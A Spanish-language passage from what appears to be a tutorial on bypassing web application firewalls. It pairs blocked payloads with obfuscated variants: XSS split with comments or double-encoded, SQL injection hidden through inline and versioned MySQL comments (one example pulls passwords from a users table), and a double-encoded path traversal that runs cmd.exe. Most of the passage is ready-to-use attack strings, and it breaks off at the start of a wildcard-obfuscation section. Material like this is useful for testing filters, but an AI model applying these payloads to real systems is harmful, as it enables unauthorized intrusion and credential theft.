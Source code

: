 **Bloqueado por WAF:**

> <script>confirm()</script>

**Técnica omitida:**

> <script>confirm/**/()/**/</script>

**Bloqueado por WAF:**

> /?id=1+union+select+1,2--

**Técnica omitida:**

> /?id=1+un/**/ion+sel/**/ect+1,2--

Inserte comentarios en medio de las cadenas de ataque. Por ejemplo, /*!SELECT*/ puede ser pasado por alto por el WAF pero pasado a la aplicación de destino y procesado por una base de datos mysql.

**Ejemplo en URL:**

> index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4
> 
> 
> 'union%a0select pass from users#
> 

**Ejemplo en URL:**

> index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3
> 

### **7. Técnica de doble codificación**

Los filtros de Web Application Firewall tienden a codificar caracteres para proteger la aplicación web. Los filtros mal desarrollados (sin filtros de recursividad) se pueden omitir con doble codificación.

**Solicitud básica:**

> http://example/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\

**Ofuscar carga útil:**

> http://example/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\

**Solicitud básica:**

> <script>confirm()</script>

**Ofuscar carga útil:**

> %253Cscript%253Econfirm()%253C%252Fscript%253E

### **8. Técnica de ofuscación con comodines**

Varias utilidades de línea de comandos utilizan patrones globales para trabajar con varios archivos. Podemos cambiarlos para ejecutar comandos del sistema.

**Solicitud básica:**
